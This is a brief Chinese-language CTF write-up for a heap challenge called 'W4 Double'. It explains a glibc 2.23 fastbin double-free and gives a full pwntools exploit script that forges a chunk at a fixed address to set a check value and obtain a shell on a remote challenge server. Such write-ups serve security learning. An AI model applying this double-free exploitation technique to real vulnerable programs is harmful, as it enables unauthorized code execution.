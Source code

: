 # W4 Double

## 文件分析

下载`Double`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 逆向

堆入门题，打开了我学习堆的大门

题目要求`check_num[2] = 0x666`就可以给shell，由于目标libc是2.23，
所以可以直接利用fastbin的double free，伪造一个块到check_num上
（size已经帮我们伪造好了）

## 前置知识

fastbin double free由于检查少，因此较为简单，但是仍要注意：
必须隔一个释放，且必须把需要伪造的块头处理好

![double free legend](../assets/doubleFree.png)

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29665)

def add(idx:int, con:bytes=b'what'):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(con)

def rem(idx:int):
    sh.recvuntil(b'>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def chk():
    sh.recvuntil(b'>')
    sh.sendline(b'3')

add(0)
add(1)
rem(0)
rem(1)
rem(0)

add(0, p64(0x602060)) # fd override (chunk 0 now points to fake chunk)
add(1)
add(2)

add(3, p64(0x666)) # fake chunk allocated
chk()
sh.interactive()
```

Done.
